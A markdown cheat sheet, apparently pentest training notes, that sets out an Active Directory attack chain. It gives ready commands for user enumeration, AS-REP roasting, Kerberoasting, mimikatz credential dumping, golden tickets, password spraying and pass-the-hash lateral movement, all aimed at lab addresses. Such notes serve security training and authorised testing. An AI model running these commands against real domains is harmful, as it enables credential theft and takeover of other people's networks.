 
## AD Hack steps

#### 1. logged into in the network (foothold)
+ Find & exploit CVE to get shell on attacker machine.
+ Default credential on LDAP enumeration then use spray attack.
+ User enumeration and use [AS_REP (TGT)] attack to get user password.
#### 2. (Possibly) escalate privileges in the machine.
#### 3. Dump credentials (mimikatz) and/or obtain Kerberos tickets (TGS).
#### 4. Repeat steps above until you have administrative privileges in the Domain Controller.


+ NOTE [ Don't forget use enumeration tool winpeas.exe / linpeas.sh ] 




##  Get DOMAIN-Name & Device name 
```
$ crackmapexec smb [IP] 
$ crackmapexec smb 10.10.1.12
```
##  Users fuzzing & enumeration
+ Users fuzzing
```
$ kerbrute userenum  [wordlist]  -d [DC-name] --dc [Dc-ip]
$ kerbrute userenum  /usr/share/wordlists/dirb/others/names.txt  -d test.com --dc 10.10.1.12
```
+ Users enumeration using LDAP(Port 389)
```
$ ldapsearch -H ldap://[DC-IP] -x -b [namingContexts] "(objectClass=person)" | grep "sAMAccountName:" 
$ ldapsearch -H ldap://10.10.1.12 -x -b DC=test,DC=com "(objectClass=person)" | grep "sAMAccountName:" 

```
+ Users enumeration using enum4linux
```
# get all users in the domain
cmd> net user /domain
cmd> net user <username> /domain
```
```
$ enum4linux -v [DC-ip]
$ enum4linux -v 10.10.1.12
```
+ Users enumeration using rpcclient (Port 111)
```
$ rpcclient [DC-ip] -U "" -N 
$ enumdomusers
```
## Active Directory Attacks

### 1. Non-Pre-authentication AS_REP (TGT)
+ AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline and get user password.

```
$ impacket-GetNPUsers  [dc]/ -no-pass -u [usersname.txt]  -dc-ip [IP]  
$ impacket-GetNPUsers  test.com/ -no-pass -u users.txt  -dc-ip 10.10.1.12

# Use hashcat crack ticket
$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
#### OR
```
$ kerburte --dc [ip] -d [domain_name] [user.txt] --downgrade
$ kerburte --dc 10.10.1.12 -d test.com user.txt  --downgrade

# Use hashcat crack ticket
$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```

### 2. Kerberoasting SPN (TGS)
+ A user is allowed to request a ticket-granting service (TGS) ticket for any SPN, and parts of the TGS may be encrypted with RC4 using the password hash of the service account that is assigned the requested SPN as the key


 #### A. Enumerate servicePrincipalNames (SPN)
 + using Linux (credentials required)
 ```
$ impacket-GetUserSPNs [Domain-name]/[user]:[pass] -dc-ip [IP]
$ impacket-GetUserSPNs test.com/user:pass123 -dc-ip 10.10.1.12
 
 ```
 + using windows attacker machine (with out credentials)
 ```
$ powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
$ Get-NetUser -SPN | select serviceprincipalname
 
 ```
 #### B. Service request (get SPN hash TGS)
  ```
 # Run powershell
 $ Add-Type –AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList '[SPN]'
 $ Add-Type –AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList 'MSSQLSvc/sql01.exam.com:1433'
                
  ```
  ```
  # SPN hash saved on  windows memory  need mimikatz to extarc it
  $ kerberos::list /export
  
  # change format use kirbi2john
  $ kirbi2john SPN-mimikatz-output > hash.txt  
  $ hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt     
  ```
  
  ### 3. Dump hashes
   + using Linux (credentials required)
  ```
  # To dumb SAM & logonpasswords 
  $ impacket-secretsdump [DC-name]/[user]:[pass]@[IP]
  $ impacket-secretsdump test.com/user:pass123$@10.10.1.12

  ```
  + using  mimikatz.exe  (with Administrator priv)
  ```
  $ mimikatz.exe
  
  # check to see if Mimikatz is running with system privileges
  $ privilege::debug 
  
  # output all of the clear text passwords stored on this computer
  $ sekurlsa::logonpasswords full
  
  # Dump local SAM 
  $ lsadump::sam

# Dump tickets that are stored in memory
  $ sekurlsa::tickets 
 ```   
   
 ### 4. Golden Tickets
 
  ```
  $ mimikatz.exe
  $ privilege::debug
  
  $ lsadump::lsa /inject /name:krbtgt
  
  
  # kerberos::golden /user: /domain: /sid: /krbtgt: /id:
  $ kerberos::golden /user:administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf 
/id:500

# Use Golden Tickets
$ misc::cmd

# Ues device name  to login with high priv
$ psexec.exe \\dc01 cmd.exe   
```
### 5. spray attack password

```
$ crackmapexec smb <IP> -u users.txt -p passwords.txt
```
```
# Password Spraying
$ kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.1.12] domain_users.txt Password123

# Brute-Force
$ kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.1.12] passwords.lst Allison
```
  
## Lateral movement
```
# winrm   port (5985)
$ evil-winrm -i <ip> -u <user> -p <pass> 


# smb port (445)
impacket-psexec <DC-name>/<user>:<pass>@<IP>
$ impacket-psexec test.com/Allison:pass123@10.10.1.12 


# RDP     port (3389)
rdesktop -u <user> -p <pass> <pass>
$ rdesktop -u Allison -p pass123 10.10.1.12
$ rdesktop -E -d test.com  -u Allison  -p pass123 10.10.1.12   #login use domain user 
```
+ Pass-the-Hash
```
$ evil-winrm -i <ip> -u <user> -p <NTLM hash> 

wmiexec.py -hashes '<NTLM hash>' -dc-ip <ip> <user>@<ip>
$ wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e' -dc-ip 10.10.1.12 administrator@10.10.1.12
```
 
 
